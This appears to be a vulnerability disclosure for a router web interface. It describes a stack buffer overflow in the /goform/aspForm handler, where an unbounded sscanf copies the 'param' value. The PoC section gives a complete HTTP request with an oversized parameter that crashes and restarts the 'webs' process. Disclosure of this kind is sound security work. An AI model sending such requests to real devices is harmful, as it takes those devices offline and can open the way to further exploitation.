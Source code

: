 ## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `Edit_BasicSSID_5G`, the program will go into the following handling function.

![image-20230610002319736](assets/image-20230610002319736.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v33` on the stack. The parameter `%[^;]` of `sscanf` didn't limit the copy length.

![image-20230610002347260](assets/image-20230610002347260.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=Edit_BasicSSID_5G&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
```

## Result

the process `webs` restart

![image-20230610123552388](assets/image-20230610123552388.png)
